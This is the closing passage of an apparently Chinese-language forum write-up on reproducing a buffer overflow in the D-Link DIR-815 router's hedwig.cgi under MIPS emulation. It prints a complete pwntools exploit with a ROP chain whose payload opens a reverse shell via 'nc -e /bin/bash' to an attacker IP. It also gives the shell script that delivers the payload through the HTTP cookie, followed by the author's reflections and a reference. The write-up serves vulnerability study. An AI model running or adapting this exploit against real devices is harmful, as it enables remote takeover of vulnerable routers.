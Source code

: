 
编写 exp
======

system 方法：将上面的 exp 的 libc 基地址和偏移改掉然后 cmd 换成`nc -e /bin/bash 192.168.x.145 9999`（IP 地址是 ubuntu 机器的，即攻击主机 IP）

```
#!/usr/bin/python2from pwn import *context.endian = "little"context.arch = "mips"base_addr = 0x77f34000system_addr_1 = 0x53200-1gadget1 = 0x45988gadget2 = 0x159cccmd = 'nc -e /bin/bash 192.168.79.145 9999'padding = 'A' * 973 #1009-4*9padding += p32(base_addr + system_addr_1) # s0padding += p32(base_addr + gadget2)       # s1padding += 'A' * 4                        # s2padding += 'A' * 4                        # s3padding += 'A' * 4                        # s4padding += 'A' * 4                           # s5padding += 'A' * 4                        # s6padding += 'A' * 4                        # s7padding += 'A' * 4                        # fppadding += p32(base_addr + gadget1)       # rapadding += 'B' * 0x10padding += cmdf = open("context",'wb')f.write(padding)f.close()

```

生成的 context 通过 scp 拷贝到 mips 虚拟机中并且`nano debug.sh`更改 debug.sh

 

`新的debug.sh内容：（在路由器仿真系统执行，即被攻击机）`

```
#!/bin/bashexport CONTENT_LENGTH="100"export CONTENT_TYPE="application/x-www-form-urlencoded"export HTTP_COOKIE="uid=`cat context`"export REQUEST_METHOD="POST"export REQUEST_URI="/hedwig.cgi"echo "uid=1234"|/htdocs/web/hedwig.cgi#echo "uid=1234"|./gdbserver.mipsel 192.168.x.145:9999 /htdocs/web/hedwig.cgi

```

在 mips 虚拟机运行之后在本机 nc -vlp 9999，确实能够获取 / bin/bash 权限。成功了！说明 rop 链构造是没问题的。

 

![](https://bbs.pediy.com/upload/attach/202107/913238_UA863HFKQDAN5ZY.png)

 

`最后：`exp 当然不止这一种，其他可以利用的方法也许多，由于受限于个人的知识水平，整理难免会出现不正确的地方，如若发现了问题，欢迎指出，笔者也会修改和完善相关内容，继续努力贡献更优质的号文章分享给大家。

总结
==

由于各种原因涉及此行业，也是个人第一个完整复现成功的漏洞，在学习过程中发现许多问题，并且从解决过程中收获许多，正是因为遇到许多奇怪的坑，并且能找的相关资料甚少，所以花了大量时间完成了本文，文中内容尽量做到细节步骤都配图说明，希望能帮助到更多的同学。

 

`浅聊心态历程：`遇到各种问题被卡住时难免会产生放弃及怀疑的思虑，坚持下来的原因对我而言更多的是热爱，如若不是兴趣趋势，小劝各位同学尽早发现自己喜欢的方向或者职业。

参考
==

1，DIR815 缓冲区溢出漏洞分析相关：

 

[https://pup2y.github.io/2020/05/22/dir815-huan-chong-qu-yi-chu-lou-dong-zai-fen-xi/](https://pup2y.github.io/2020/05/22/dir815-huan-chong-qu-yi-chu-lou-dong-zai-fen-xi/)[1]
